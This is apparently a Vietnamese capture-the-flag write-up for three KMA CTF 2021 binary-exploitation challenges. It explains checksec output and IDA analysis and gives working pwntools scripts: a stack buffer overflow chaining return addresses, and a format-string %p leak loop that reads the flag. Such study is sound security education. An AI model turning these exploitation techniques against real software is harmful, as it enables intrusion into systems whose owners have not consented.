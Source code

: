 # 1. KMA

Đối với các bài thử thách về Pwn, đầu tiên chúng ta sẽ kiểm tra các kiến trúc và cơ chế bảo vệ của nó như:

* Architecture: Intel x86, Intel x64, ARM, ...
* [RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/): cơ chế này cho phép một số section chỉ được read (không có quyền write, execute).
* [Stack](https://ctf101.org/binary-exploitation/stack-canaries/): cơ chế này kiểm tra xem stack có bị overwrite không.
* [NX](https://ctf101.org/binary-exploitation/no-execute/): cơ chế ngăn chặn input hoặc data thực thi.
* [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie): cơ chế giúp file load vào các vùng nhớ khác nhau, làm cho địa chỉ không cố định.

Để kiểm tra, tôi sẽ sử dụng `checksec` tool.

![kma](/2021_KMACTF/images/pwn/h1.PNG "kma")

Vì đây là một challenge đơn giản, các cơ chế bảo vệ đã được disable để dễ dàng trong việc exploit.

Load vào IDA để phân tích.

![kma](/2021_KMACTF/images/pwn/h2.PNG "kma")

Luồng chương trình:
* Khởi tạo 0x20 bytes trên stack để lưu input.
* Cho phép người dùng nhập lên đến 0x100 bytes.
* Giải phóng 0x20 bytes trên stack và lệnh `pop edx` sẽ lấy giá trị để so sánh. Nếu `edx` bằng với chuỗi `_KMA` thì sẽ được vào shell.

Từ đây, tôi có thể kết luận đây là Buffer Overflow.

Để exploit ta chỉ cần nhập đủ 0x20 bytes, theo sau là chuỗi `_KMA`.

![kma](/2021_KMACTF/images/pwn/h3.PNG "kma")



# 2. Amazingg

Kiểm tra các cơ chế bảo vệ của file.

![amazingg](/2021_KMACTF/images/pwn/h4.PNG "amazingg")

Chú ý, ta thấy đây là một file 64 bit. Load file vào IDA để phân tích.

![amazingg](/2021_KMACTF/images/pwn/h5.PNG "amazingg")

Tại hàm `gets()` cho phép nhập với độ dài tùy ý, nên tôi xác định đây là Buffer Overflow.

![amazingg](/2021_KMACTF/images/pwn/h6.PNG "amazingg")

Nhìn vào các function của chương trình, tôi thấy thêm các hàm `Func1()`, `Func2()`, `Func3()`, `Puts_flag()`. 

Hàm `Puts_flag()` sẽ kiểm tra các biến `check1`, `check2`, `check3` do các hàm `Func1()`, `Func2()`, `Func3()` gán. Do vậy, ta phải lợi dụng lỗ hổng Buffer Overflow để thực thi được tất cả các hàm này mới có thể lấy được flag.

Để làm được điều này, ta phải tính toán offset hợp lý để tạo payload.
* Đầu tiên, trong hàm `main()` có lệnh `sub   rsp, 10h` và `leave` nên ta sẽ nhập đủ 0x10 bytes. (Vì sao thì các bạn xem ý nghĩa của lệnh leave).
* Tiếp theo, các hàm `Func1()`, `Func2()`, `Func3()` đều có lệnh `cmp   [rbp-4], 539h`. Nên ta sẽ nhập 4 bytes tùy ý và 0x539 để ghi đè vào `rbp`.
* Cuối cùng, `return address` tôi sẽ nhập vào các hàm cần thực thi.

Đây là script exploit.
```python
from pwn import *

p = process("./amazingg")

p.recvuntil("step....\n")

p.sendline(b"a"*16 + b"a"*4 + p32(1337) + p64(0x4006E6) + p64(0x40070E) + p64(0x400736) + p64(0x40075E))

p.interactive()
```



# 3. fs

Kiểm tra các cơ chế bảo vệ của file.

![fs](/2021_KMACTF/images/pwn/h7.PNG "fs")

Challenge này đã bật cơ chế Stack Canary, nên sẽ không có lỗ hổng Buffer Overflow nữa.

Load file vào IDA để phân tích.

![fs](/2021_KMACTF/images/pwn/h8.PNG "fs")

Trong hàm `vuln()`, tôi thấy có lệnh `printf(s);` nên tôi xác định đây là lổ hổng Format String.

Để khai thác lỗi này, ta phải tìm được offset, từ `esp` đến vùng nhớ flag được lưu trữ ở stack.

![fs](/2021_KMACTF/images/pwn/h9.PNG "fs")

Bật debug, tôi tìm được offset bắt đầu của flag sẽ là `57`. Để lấy được giá trị tại offset này, tôi dùng format `$p`.

Viết Script khai thác.

```python
from pwn import *

offset = 57
flag = ""

while True:

	p = process("./fs")

	p.recvuntil("\n")

	payload = "%" + str(offset) + "$p"
	p.sendline(payload)

	recv = p.recvuntil("\n").decode("utf-8")
	recv = recv[11:len(recv) - 1]
	if offset == 57:
		recv = recv[:len(recv) - 2]
	flag += bytes.fromhex(recv).decode('utf-8')[::-1]
	offset += 1

	print(flag)
```

